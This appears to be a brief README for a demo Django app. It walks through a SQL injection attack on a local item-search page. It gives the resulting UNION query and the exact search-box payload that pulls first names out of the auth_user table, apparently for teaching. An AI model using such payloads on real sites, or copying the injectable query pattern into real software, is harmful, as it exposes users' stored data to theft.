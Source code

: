 How to perform a SQL Injection Attack

Steps

- pip install Django
- python manage.py runsever
- http://127.0.0.1:8000/items/search
- SELECT name FROM orders_item WHERE name LIKE '%' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '%'
- Search for "z' UNION SELECT first_name FROM auth_user WHERE first_name LIKE '"

